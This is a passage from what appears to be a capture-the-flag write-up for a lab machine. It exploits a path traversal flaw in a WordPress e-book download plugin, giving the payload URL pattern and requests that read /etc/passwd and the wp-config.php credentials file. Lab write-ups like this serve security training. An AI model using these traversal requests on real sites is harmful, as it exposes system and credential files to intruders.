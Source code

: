 > So, let me use this vulnerability to read the file.
> Payload

```
# /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=<file we want to read>
```

1. Read /etc/passwd

```
# /wp-content/plugins/ebook-download/filedownloads?ebookdownloadurl=../../../../../../etc/passwd
```
![](machine/backdoor/IMG/8.png)

2. Read /wp-config.php

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../wp-includes/wp-config.php
```
